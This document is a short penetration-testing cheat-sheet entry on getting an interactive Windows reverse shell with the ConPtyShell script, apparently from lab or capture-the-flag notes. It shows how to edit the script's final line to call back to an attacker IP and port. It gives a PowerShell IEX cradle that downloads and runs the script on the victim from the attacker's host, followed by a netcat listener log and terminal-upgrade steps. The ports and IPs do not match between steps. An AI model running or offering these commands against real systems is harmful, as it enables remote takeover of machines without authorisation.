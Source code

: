 ### ConPTY
1) Download the [Invoke-ConPTYShell.ps1](https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1) script in our local machine.
2) Modify the final line on the script as follows exchange the IP and remote Port of our local machine as well as the stty size:
```powershell
class MainClass
{
    static void Main(string[] args)
    {
        Console.Out.Write(ConPtyShellMainClass.ConPtyShellMain(args));
    }
}

"@;
Invoke-ConPtyShell -RemoteIp 10.0.0.2 -RemotePort 3001 -Rows 43 -Cols 186
```
3) This command line will download and execute this file from the victim machine so you need to open your -RemotePort first 
# Note Use netcat without rlwrap.
```bash
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.2/Invoke-ConPtyShell.ps1')
```
4) Once that we receive the shell we need to Ctrl+Z and execute the command stty as usual:
```bash
# Rev Shell
nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.175] 49877
^Z
zsh: suspended  nc -lvnp 1234
┌──(root㉿kali)-[~]
└─# stty raw -echo; fg
```
5) Finally double click Enter and that will be it...
Examples:
[[Outdated#^8b153b]]